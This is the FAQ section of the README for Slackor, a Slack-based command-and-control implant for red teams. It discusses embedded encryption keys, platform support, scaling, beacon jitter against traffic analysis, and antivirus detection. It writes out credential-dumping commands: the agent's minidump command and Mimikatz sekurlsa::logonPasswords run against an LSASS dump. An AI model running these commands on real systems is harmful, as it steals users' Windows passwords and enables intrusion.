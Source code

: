 ```(Slackor)```
FAQ:
=====
**Is this safe to use for red teams/pentesting?** 

Yes, given some conditions.  While the data is encrypted in transit, the agent contains the key for decryption.
Anyone who acquires a copy of the agent could reverse engineer it and extract the API keys and the AES secret key.
Anyone who compromises or otherwise gains access to the workspace would be able to retrieve all data within it. 
For this reason, it is not recommended to re-use infrastructure against multiple organizations.    

**What about Mimikatz?**

The implant does not have in-memory password dumping functionality.
If you need logonPasswords, you can try the following:
```
(Slackor: AGENT)minidump
```
THis will automically extract passwords with Pypykatz.  Alternatively, you can use Mimikatz on Windows.
```
>mimikatz.exe
mimikatz # sekurlsa::Minidump lsassdump.dmp
mimikatz # sekurlsa::logonPasswords
```
**Is it cross-platform?** 

It has limited cross-platform support. It has not been fully tested on all of the systems it can be run on.
The server was designed to run on Kali Linux. The agent is compiled for Windows, Mac, and Linux, but has
primarily been tested with Windows 10. Agents may mishandle commands which are not supported by that agent's
platform (don't try to minidump a Mac).

**How well does it scale?** 

Scalability is limited by the Slack API.  If you have multiple agents, consider increasing the beacon interval of beacons not in use.  

**Is it vulnerable to standard beacon analysis?** 

Currently each beacon has 20% jitter built in, and beacon times can be customized.  Agent check-in request and response packets will be about the same size each time as long as no new commands are recieved.

**Why did you do [x] when a better way to do it is [y]?**

I tried my best.  PRs are encouraged :)

**It gets caught by AV!**

With this being open source now, it's bound to have issues.  I'll fix modules as I can but there is no guarantee this will bypass all AV at all times.
